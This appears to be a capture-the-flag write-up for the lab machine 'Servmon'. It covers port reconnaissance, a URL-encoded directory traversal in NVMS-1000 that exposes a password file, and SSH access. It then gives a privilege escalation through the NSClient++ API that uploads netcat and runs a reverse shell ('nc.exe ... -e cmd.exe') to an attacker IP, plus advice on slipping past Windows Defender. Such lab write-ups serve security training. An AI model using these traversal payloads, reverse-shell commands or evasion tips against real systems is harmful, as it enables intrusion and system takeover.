




# Servmon

### Reconnaissance

- port 21 FTP Microsoft ftpd  
- port 22 SSH OpenSSH for_Windows_8.0 (protocol 2.0)  
- port 80 HTTP  
- port 135/tcp RPC  
- port 139/tcp NetBIOS  
- port 445/tcp SMB  
- port 5666/tcp Nagios NRPE? https://assets.nagios.com/downloads/nagioscore/docs/nrpe/NRPE.pdf  
- port 6063/tcp X11? https://wiki.wireshark.org/X11  
- port 6699/tcp  
- port 8443/tcp HTTPS domain=localhost  
- port 49664-49670/tcp RPC

**Port 21 FTP** anonymous access allowed, found 2 user directories (Nathan and Nadine) and text files 
mentioning a Passwords.txt on Nathans Desktop

**Port 445 SMB** no access

**Port 80** hosts NVMS-1000, a CMS software for network video surveillance

- potential directory traversal

/index.htm

**Port 8443** hosts NSClient++

/api
/metrics

### Exploitation

searchsploit shows a Directory Traversal vulnerability for NVMS-100 but the script doesn't work

Trying different filter bypass techniques gets us access to Passwords.txt

Directory traversal on port 80 exposing the Passwords.txt file mentioned in the FTP files

`10.10.10.184/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fusers/nathan/desktop/Passwords.txt`

None of the passwords work for the log in panels but one works for Nadine's ssh password, giving us user 
access

NSCLient password `ew2x6SsGTxjRwXOT`

### Exploitation

systeminfo is denied to us, any enumeration scripts or binaries get blocked and deleted by Defender, even 
when running in memory

Looking in Program Files we can see the applications corresponding to the services running on port 80 and 
port 8443 (NVMS and NSClient++)

Searching for NSClient on searchsploit shows a privesc vulnerability as the service runs as System, and that
the password for NSClient is found in nsclient.ini

We can check if the version of NSClient is vulnerable, and it is

`cmd /c "C:\Program Files\NSClient++\nscp.exe" --version`

We need to upload a netcat binary and add a script to NSClient that can execute netcat giving us a reverse 
shell

We can upload netcat to the target with `Invoke-WebRequest` to a temp folder that we create in C:\ as we 
have write access

`PS C:\temp> Invoke-WebRequest -Uri http://10.10.10.10:80/nc64.exe -Outfile nc.exe`

Using a local ssh tunnel we can access the service on port 8443 on our attacking machine

`ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184`

We can then use the API (https://nsclient.org/docs/api/rest/scripts/#add-script) to upload and execute the 
script, using port 443 to avoid the AV dropping our connection

`curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/revshell.bat --data-binary "C:\temp\nc.exe 10.10.10.10 443 -e cmd.exe"`

Then we start a listener and execute the script (https://nsclient.org/docs/api/rest/queries/#command-execute)

`curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/revshell/commands/execute?time=3m`

This gives a System shell on the target

### Lessons Learned

- Wireshark Port Reference is an excellent resource

- Work your way down the list of [PayloadsAllTheThings directory traversal cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) when checking for directory traversal

- Check executable version with `cmd /c "C:\Program Files\Program\program.exe" --version`

- Look for API docs for services if the dashboard/service is buggy

- The registry can help enumerate services if access to sc.exe is denied  
`reg query HKLM\SYSTEM\CurrentControlSet\Services`

- If well-known scripts/binaries/exploits get detected by Windows Defender/AV, try creating a new directory 
and using basic tools like netcat and manual enumeration
